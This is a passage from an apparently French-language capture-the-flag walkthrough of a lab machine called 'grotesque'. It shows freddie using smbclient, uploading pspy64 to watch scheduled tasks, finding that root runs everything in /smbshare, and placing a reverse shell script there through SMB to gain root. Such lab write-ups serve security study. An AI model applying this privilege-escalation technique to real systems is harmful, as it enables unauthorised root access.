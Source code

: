 ```bash
freddie@grotesque:~$ smbclient //127.0.0.1/grotesque
Unable to initialize messaging context
Enter WORKGROUP\freddie's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Jul 11 09:24:27 2021
  ..                                  D        0  Sun Jul 11 09:20:30 2021

                1942736 blocks of size 1024. 674116 blocks available

```
mais y a rien info pratique .

5. Téléchargez un autre **pspy64** pour voir s'il y a des tâches planifiées
(Ouvrez un nouveau port de terminal et entrez dans le répertoire psy64)

```bash
scp pspy64 freddie@10.1.12.130:~
```

Revenir à la terminal de de connexion ssh freedie.

```bash
ls
./psy
```
![请添加图片描述](https://i-blog.csdnimg.cn/direct/133b19f0eb2b462ab91ceb82dc72ca48.png) 
**bash/smbshare/***
J'ai découvert que le root exécute tout le contenu du dossier /smbshare. 

En vérifiant, j'ai vu que je n'avais pas les permissions pour accéder à ce dossier.

6. Vous pouvez télécharger un shell de rebond shell.sh dans ce dossier et exécuter ce shell de rebond via une tâche planifiée pour obtenir les autorisations root.(comme psy64)

```bash
scp shell.sh freddie@10.1.12.130:~  
```

7. Et puis entrer smb,

```bash
freddie@grotesque:~$ cd /tmp
freddie@grotesque:/tmp$ ls
linpeas.sh
shell.sh
systemd-private-966b61c4a3bf42889528302ace12acd2-apache2.service-Gybmaq
systemd-private-966b61c4a3bf42889528302ace12acd2-systemd-timesyncd.service-2EzUsP
freddie@grotesque:/tmp$  smbclient  //127.0.0.1/grotesque
Unable to initialize messaging context
Enter WORKGROUP\freddie's password: 
Try "help" to get a list of possible commands.
smb: \> put shell.sh
putting file shell.sh as \shell.sh (0.8 kb/s) (average 0.8 kb/s)
smb: \> ls

```
